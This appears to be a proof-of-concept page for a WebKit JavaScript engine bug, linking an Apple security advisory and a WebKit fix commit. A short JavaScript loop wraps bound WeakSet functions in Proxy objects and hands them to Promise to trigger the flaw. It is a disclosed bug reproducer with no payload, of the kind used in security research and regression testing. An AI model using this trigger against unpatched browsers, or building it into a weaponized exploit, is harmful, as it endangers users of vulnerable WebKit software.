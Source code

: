 
https://support.apple.com/en-us/HT210346
https://github.com/WebKit/webkit/commit/7bff1abee4a71396cadb374f6a549de47efb153c

```javascript
function opt() {

    for (let i = 0; i <= 100; i++) {

        let a = WeakSet.bind();
        let p = new Proxy(a,a);
        let c = new Promise(p);
        let d = WeakSet.bind();
        let e = new Proxy(d,WeakSet);
        let f = new Promise(e);
    
    }
}
for (let j = 0; j < 0x100; j++){
    opt();
}
```

